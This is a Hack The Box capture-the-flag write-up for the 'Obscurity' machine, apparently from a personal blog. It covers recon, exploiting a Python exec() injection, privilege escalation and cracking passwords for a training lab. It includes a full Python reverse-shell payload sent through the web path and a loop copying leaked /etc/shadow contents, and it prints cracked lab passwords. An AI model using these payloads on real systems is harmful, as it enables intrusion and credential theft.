 ```yaml
---
title: "📦 HTB - Obscurity"
date: 2020-04-12 16:00:00
tags: ["htb", "writeup"]
categories: ["HTB"]
author: "0xNinja"
resources:
- name: "featured-image"
  src: "featured-image.png"
---
```


> Obscurity is my first medium box so I was very happy when I got that `root.txt` :D

## TL;DR

Custom Python web server, get source code, get revserse shell, crack user password for custom encryption system, use john to privesc.

## Footholds

To make things easier, I added the box to my `/etc/hosts`.

### Recon

Let's start with nmap to discover the open ports :

```
> nmap -A obscurity.htb -o nmap.out

Nmap scan report for obscurity.htb (10.10.10.168)
    Host is up (0.026s latency).
    Not shown: 996 filtered ports
    PORT     STATE  SERVICE    VERSION
    22/tcp   open   ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 33:d3:9a:0d:97:2c:54:20:e1:b0:17:34:f4:ca:70:1b (RSA)
    |   256 f6:8b:d5:73:97:be:52:cb:12:ea:8b:02:7c:34:a3:d7 (ECDSA)
    |_  256 e8:df:55:78:76:85:4b:7b:dc:70:6a:fc:40:cc:ac:9b (ED25519)
    80/tcp   closed http
    8080/tcp open   http-proxy BadHTTPServer
    | fingerprint-strings: 
    |   GetRequest, HTTPOptions: 
    |     HTTP/1.1 200 OK
    |     Date: Fri, 10 Apr 2020 11:14:28
    |     Server: BadHTTPServer
    |     ...
    |_http-server-header: BadHTTPServer
    |_http-title: 0bscura
    ...
```

So we got so far SSH and HTTP server running on the machine.

### Web server

On the port 8080 we can see the web server which indicates that it is hand-made with custom code.

![0bscura homepage](homepage.png)

> If you use custom code, you can't have CVE's on it. So your code is 100% secure.

![Smart move gif](https://media.giphy.com/media/d3mlE7uhX8KFgEmY/giphy.gif)

By reading the content of their homepage, we get a good hint : they are hosting the source code on the server. We have to find `SuperSecureServer.py` ont it !

![0bscura devteam](devmessage.png)

### Finding source code

The easiest way I found on the moment was to fire up Burpsuite and use a directory wordlist.

By making a first request to the webserver, I sent it to Burp's intruder in sniper mode. Using a simple directory wordlist (`common.txt`) I placed the payload's position as `GET /§a§/SuperSecureServer.py`, launched the attack and waited for burp to get a 200 response code.

![Burp intruder](intruder.png)

![Burp payload](payload.png)

The source code is at `/develop/SuperSecureServer.py` !

![Burp result](result.png)

### Source code auditing

By reading the code, I found that during the document serving process, the `exec()` function is called.

```python
def serveDoc(self, path, docRoot):
    path = urllib.parse.unquote(path)
    try:
        info = "output = 'Document: {}'" # Keep the output for later debug
        exec(info.format(path)) # This is how you do string formatting, right? <-- here
        cwd = os.path.dirname(os.path.realpath(__file__))
        docRoot = os.path.join(cwd, docRoot)
        if path == "/":
            path = "/index.html"
```

### Reverse shell

After understanding when the exec was called, I injected a python reverse shell payload. Basically this is a command injection through format string, string which got evaluated right after. The payload we could manipulate was directly the path we GET on the server. My final payload for the reverse shell was :

```
GET /';import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

This payload works because :

* The first `'` is used to break the string generated by the format string
* Both `;` to inject a new python code between
* The last `'` is to make an empty string with the single quote from the source code, otherwise an error is raised

So I just launched a netcat connexion listenning on my machine, and made a request on the server with the payload to get the shell.

![Hapyp GIF](https://media.giphy.com/media/Ls6ahtmYHU760/giphy.gif)

## User

The reverse shell we have is as `www-data`, we need to privesc as a regular user.

```shell
> ls /home
robert
```

We know that user `robert` must be the user we need to privesc as. We need to investigate it's home directory.

```shell
> ls /home/robert
BetterSSH   check.txt   out.txt passwordreminder.txt    SuperSecureCrypt.py ...
```

We got a bunch of files here, some are pretty interesting, especially the Python script.

By examining it, we understand that Robert uses a custom password manager, stores it's "encrypted" password in a file, and tested it's encryption passphrase on a dummy text file.

First thing I did was to BF it's password using the famous rockyou. But it was unsuccessfull, I managed to get something close to it's password, but not the actual password.

After thinking about the encryption and decryption algorithms, I managed to get the real password.

To use the Python script : `python SuperSecureCrypt.py -i infile -k key -o outfile` will "encypt" the content of infile with key into outfile. To decrypt we have to use the `-d` option.

As the encryption and decryption where very simple :

```python
def encrypt(text, key):
    for x in text:
    newChr = chr( (ord(x) + ord(keyChr)) % 255 )
    encrypted += newCrh

def decrypt(text, key):
    for x in text:
    newChr = chr( (ord(x) - ord(keyChr)) % 255 )
    decrypted += newChr
```

The easiest way to get the password was : `python SuperSecureCrypt.py -d -i out.txt -k "$(cat check.txt)" -o pass.txt`

The encryption password was `alexandrovich`.

`python SuperSecureCrypt.py -d -i passwordreminder.txt -k alexandrovich -o robert.txt`

Robert's password was `SecThruObsFTW`, we can SSH as him and get the `user.txt` content.

![Yes GIF](https://media.giphy.com/media/hXDrTueJWAscK3xWQ2/giphy.gif)

## Root

We now need to go root. As robert :

```
> sudo -l
User robert may run the following commands on obscure:
(ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

So yeah, we know where to start. We now need to know how to exploit this BetterSSH.py script.

By reading the first lines, we know that it reads the `/etc/shadow` file, and write it's content into a file somewhere in `/tmp/SSH/`. The script prompts for a username and password, if the password's hash does corresponds to the shadow one, it gives a shell as this user.

I started to find a fancy way to monitor the content of the `/tmp/SSH/` folder, but a simple bash script can do anything :

```bash
#!/bin/bash
while true; do
    cat /tmp/SSH/* >> /tmp/.ninja
done
```

I launched the script in background, launched the BetterSSH script too, and read the content of my `/tmp/.ninja` file. We get most of the users' hashes separated by line, but only one matters to us. Root's hash was `$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1`.

Using john the ripper on the hash, we get root's password : `mercedes`. I could have SSH back as root, but there is already a tool for us : `sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py`, entered `root` for user, and `mercedes` for password, we now have a shell as root.

![Happy GIF 2](https://media.giphy.com/media/YJ5OlVLZ2QNl6/giphy.gif)

![Rooted](rooted.png)
